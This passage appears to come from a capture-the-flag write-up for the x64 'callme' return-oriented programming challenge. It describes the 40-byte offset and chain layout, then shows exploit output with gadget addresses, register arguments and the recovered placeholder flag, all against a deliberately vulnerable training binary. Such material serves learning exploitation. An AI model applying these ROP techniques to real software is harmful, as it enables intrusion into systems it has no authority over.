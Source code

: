 Just like the previous challenges, the offset for the x64 binary is 40 bytes. The ROP chain needs to be slightly different as the arguments need to be placed into registers before the function is called. Therefore the chain is constructed as follows:
`40 bytes + gadget + args + callme_one + gadget + args + callme_two + gadget + args + callme_three`
Create the exploit and run it.
```bash
kali@kali:~/Desktop/rop/callme/x64$ python solve.py 
[*] '/home/kali/Desktop/rop/callme/x64/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  '.'
[*] Loaded 17 cached gadgets for 'callme'
[*] 0x0000:         0x40093c pop rdi; pop rsi; pop rdx; ret
    0x0008: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023L
    0x0010: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854L
    0x0018: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653L
    0x0020:         0x400720 callme_one
    0x0028:         0x40093c pop rdi; pop rsi; pop rdx; ret
    0x0030: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023L
    0x0038: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854L
    0x0040: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653L
    0x0048:         0x400740 callme_two
    0x0050:         0x40093c pop rdi; pop rsi; pop rdx; ret
    0x0058: 0xdeadbeefdeadbeef [arg0] rdi = 16045690984833335023L
    0x0060: 0xcafebabecafebabe [arg1] rsi = 14627333968358193854L
    0x0068: 0xd00df00dd00df00d [arg2] rdx = 14991902676702064653L
    0x0070:         0x4006f0 callme_three
[+] Starting local process '/home/kali/Desktop/rop/callme/x64/callme': pid 4149
[+] Receiving all data: Done (104B)
[*] Process '/home/kali/Desktop/rop/callme/x64/callme' stopped with exit code 0 (pid 4149)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```